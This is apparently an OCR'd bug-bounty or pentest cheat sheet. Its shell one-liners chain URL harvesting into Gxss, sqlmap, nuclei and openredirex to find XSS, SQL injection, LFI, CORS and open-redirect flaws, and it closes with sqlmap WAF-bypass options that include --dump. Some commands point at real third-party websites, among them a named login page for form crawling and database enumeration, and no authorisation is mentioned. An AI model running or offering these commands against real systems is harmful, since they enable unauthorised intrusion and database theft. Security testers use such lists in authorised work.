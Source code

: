      echo "https://target.com/some.php?first=hello&last=world" | Gxss -c 100
-

     cat urls.txt | Gxss -c 100 -p XssReflected

## Sql Injection :-

     echo https://www.recreation.gov | waybackurls | grep "\?" | uro | httpx -silent > param.txt
-

     cat subdomains.txt | waybackurls | grep "\?" | uro | httpx -silent > param.txt
-

     sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
-
_______________________________
```
nuclei -u https://example.com -severity medium,high,critical
```
```
find . -type f -exec cat {} + 2>/dev/null | sort | uniq | anew | uro | httpx-toolkit -mc 200  | nuclei  -t /nuclei-templates/ --severity medium,high,critical
```
```
find . -type f -exec cat {} + 2>/dev/null |  gf lfi | httpx-toolkit -mc 200 | nuclei  -t /nuclei-templates/http/vulnerabilities/generic/generic-linux-lfi.yaml -c 30
```
____________________________
     nuclei -list subdomains_alive.txt -t /Priv8-Nuclei/cors
-

     nuclei  -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech
-

     sqlmap -u https://my.easyname.at/en/login --dbs --forms --crawl=2
-

     cat allurls.txt | gf lfi | nuclei -tags lfi
-

     cat allurls.txt | gf redirect | openredirex -p /openRedirect


# Waf Bypass techniques Using Sqlmap :-

     --dbs --level=5 --risk=3 --user-agent -v3 --tamper="between,randomcase,space2comment" --batch --dump
-

     --tamper=space2comment --level=5 --risk=3
-

     --technique=B
-

     --level=5 --risk=3 --random-agent --user-agent -v3 --batch --threads=10 --dbs
-
